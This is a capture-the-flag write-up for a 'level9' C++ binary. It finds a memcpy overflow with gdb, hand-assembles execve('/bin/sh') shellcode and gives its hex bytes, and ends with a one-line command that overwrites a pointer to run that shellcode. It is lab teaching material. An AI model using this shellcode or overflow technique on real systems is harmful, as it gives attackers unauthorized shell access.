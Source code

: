 So level9 will use argv[1] and is written in c++.

A quick look at `info func` in gdb and we can see that memcpy is being used.

With a bit of bruteforce I found 109 is the length of argv[1] to make a segfault.

No system function or anything it will be a ret2libc but in c++.

```
(gdb) disass 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   ebp
   0x0804870f <+1>:     mov    ebp,esp
   0x08048711 <+3>:     sub    esp,0x18
   0x08048714 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:     mov    DWORD PTR [esp],eax
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:    add    edx,0x4
   0x08048725 <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:    mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:    mov    DWORD PTR [esp],edx
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```

We'll use a technic close to return-to-shellcode.

https://ctfcookbook.com/docs/pwn/return-to-shellcode/

Let's right a bit of asm:
```asm
xor		ecx, ecx	; ecx = 0
mul		ecx			; eax = 0
push	ecx			; 0x0 on the stack (NULL)
push	0x68732f2f	; "//sh" on the stack
push	0x6e69622f	; "/bin" on the stack
mov		ebx, esp	; ebx points to "/bin/sh"
mov		al, 0xb		; eax = 11, is the number call to execve
int		0x80		; Launch the system call
```

And to why "//sh" ? "//" is interpreted as "/" so nice but why 2 ? Because we need to have the last 2 char of the adress (since it's little endian we need to read the hex value in reverse).

https://defuse.ca/online-x86-assembler.htm

Converted to hex value :

`\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80`

We know we can overflow with `memcpy`, argv[1] is used to be copied.

Let's find where our string is stored.

```
b *0x08048677 # setannotation addr
r $(python -c "print('a' * 108)")
ni
x $esp
x/s 0x0804a008
```

> 0x804a008:       "H\210\004\b", 'a' <repeats 108 times>, "H\210\004\b"

Oh YA !!!!

`./level9 $(python -c "print( '\x0c\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'B' * 83 + '\x0c\xa0\x04\x08')")`

